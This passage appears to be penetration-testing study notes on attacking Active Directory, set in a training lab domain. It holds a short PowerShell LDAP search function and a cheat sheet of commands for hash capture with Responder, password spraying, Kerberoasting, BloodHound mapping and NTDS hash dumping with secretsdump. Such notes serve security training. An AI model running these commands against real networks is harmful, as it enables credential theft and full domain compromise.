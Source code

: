 ```powershell
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}

$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Sales Department))"
$group.properties.member
```
{% endcode %}

## Cheatsheet

| Command                                                                                           | Description                                                                                                        |
| ------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| sudo responder -I ens224 -A                                                                       | Start Responder in analysis mode                                                                                   |
| sudo responder -I ens224 -w -d                                                                    | Start network traffic response spoofing with Responder to gather NTLMv2 password hashes                            |
| kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results               | Enumerate valid Active Directory users for password spraying                                                       |
| hashcat -m 5600 bsmith\_ntlmv2 /usr/share/wordlists/rockyou.txt                                   | Attempt to crack an NTLMv2 password hash gathered with Responder using the Hashcat tool                            |
| crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol                                 | Enumerate the domain password policy using CrackMapExec                                                            |
| crackmapexec smb 10.129.203.121 -u '' -p '' --users --export $(pwd)/users.txt                     | Check for SMB NULL sessions on a domain controller host and enumerate valid users                                  |
| enum4linux -P 172.16.5.5                                                                          | Leverage an SMB NULL session on a domain controller host to verify the domain password policy                      |
| kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid\_users.txt Welcome1           | Perform a password spraying attack using the Kerbrute tool                                                         |
| Import-Module ActiveDirectory                                                                     | Load the built-in Active Directory PowerShell module on a Windows host                                             |
| Get-ADUser -Filter \* \| select Name                                                              | List all domain users using the Active Directory PowerShell module Get-ADUser cmdlet and filter by the username    |
| Get-DomainUser \* \| Select-Object samaccountname,description                                     | Check the description field of all domain users for sensitive data such as passwords                               |
| GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday                                    | Kerberoast from a Linux attack host                                                                                |
| bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u bsmith -p Welcome1         | Run the BloodHound Python version from a Linux attack host to map out the domain                                   |
| SharpHound.exe -c all --zipfilename inlanefreight\_bloodhound                                     | Run the SharpHound C# ingestor from a Windows attack host to map out the domain                                    |
| Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight\_bloodhound                        | Run the SharpHound PowerShell ingestor from a Windows attack host to map out the domain                            |
| Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap                                          | Kerberoast admin accounts using the Rubeus tool from a Windows attack host                                         |
| secretsdump.py -outputfile inlanefreight\_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss | Dump the NTDS Active Directory database to retrieve NTLM password hashes for all domain users for offline cracking |
